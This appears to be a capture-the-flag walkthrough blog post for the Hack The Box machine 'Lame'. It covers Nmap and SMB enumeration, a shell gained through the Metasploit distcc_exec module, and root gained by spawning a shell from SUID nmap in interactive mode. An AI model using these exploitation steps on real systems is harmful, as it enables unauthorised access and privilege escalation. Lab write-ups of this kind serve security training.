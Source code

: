 ```yaml
---
title:     "Hack The Box - Lame"
tags: [linux,easy,SUID,cve]
layout: post
categories: HackTheBox, OSCP-Like
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/1.png)

We are going to pwn Lame from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/1>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: remote management|WAP|printer|general purpose|power-device
Running (JUST GUESSING): Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Linux 2.4.X|2.6.X (92%), Dell iDRAC 6 (92%), Raritan embedded (92%)
OS CPE: cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:dell:idrac6_firmware cpe:/o:linux:linux_kernel:2.6.22
Aggressive OS guesses: Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Raritan Dominion PX DPXR20-20L power control unit (92%), LifeSize video conferencing system (Linux 2.4.21) (92%), Linux 2.6.23 (91%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (90%), Arris TG862G/CT cable modem (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP Enumeration

So lets start from 1st port ```ftp``` 
Lets check whether the version has any exploit available.

Since we know the verion of ``ftp`` which is ``vsftpd 2.3.4`` from nmap scan lets search for any exploits available.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/2.png)

It didn't worked, they might patched it.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/3.png)

Lets check other ports.

## SMB Enumeration

First I checked any shares available and it seems we have Read and Write access on `tmp`.
```bash
root@kali:~# smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```
I get some error if I tried connecting to it.

## Getting User Shell

We know port `3632` running `Distcc` So I googled for any exploits available and found an exploit/

> https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec

>use exploit/unix/misc/distcc_exec

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/4.png)

We got shell and found an user ``makis``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/5.png)

### Without Metasploit

There is a python script from Github
> https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855

I tried using that python script and didn't changed any and got the shell as `daemon`.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/8.png)

## Privilege Escalation

Uploaded my enumeration Script and 
Found some SETUID.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/6.png)

Lets try with ``nmap``

I searched for nmap in GTFOBins 

>https://gtfobins.github.io/gtfobins/nmap/

```
nmap --interactive
nmap> !sh
```
Using the commands

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/7.png)

We got the Root!!

